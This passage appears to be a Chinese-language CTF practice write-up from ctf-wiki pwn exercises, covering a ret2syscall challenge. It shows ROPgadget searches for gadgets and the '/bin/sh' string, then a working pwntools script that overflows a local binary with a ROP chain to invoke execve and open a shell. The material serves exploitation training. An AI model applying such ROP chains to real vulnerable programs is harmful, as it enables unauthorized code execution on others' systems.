 

寻找`/bin/sh`字符串位置

```bash
ROPgadget --binary rop --string  '/bin/sh'
```

寻找`int 0x80`的位置

```bash
ROPgadget --binary rop --only 'int'
```

![image-20250214140227571](./ctf-wiki-pwn刷题.assets/image-20250214140227571.png)



构造payload

```python
from pwn import *
p= process('./rop')

pop_eax_ret=0x080bb196
pop_edx_ecx_ebx_ret=0x0806eb90
int_0x80=0x08049421
binsh=0x080be408

payload=flat(['A'*112,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,binsh,int_0x80])
p.sendline(payload)
p.interactive()
```

![image-20250214141408868](./ctf-wiki-pwn刷题.assets/image-20250214141408868.png)
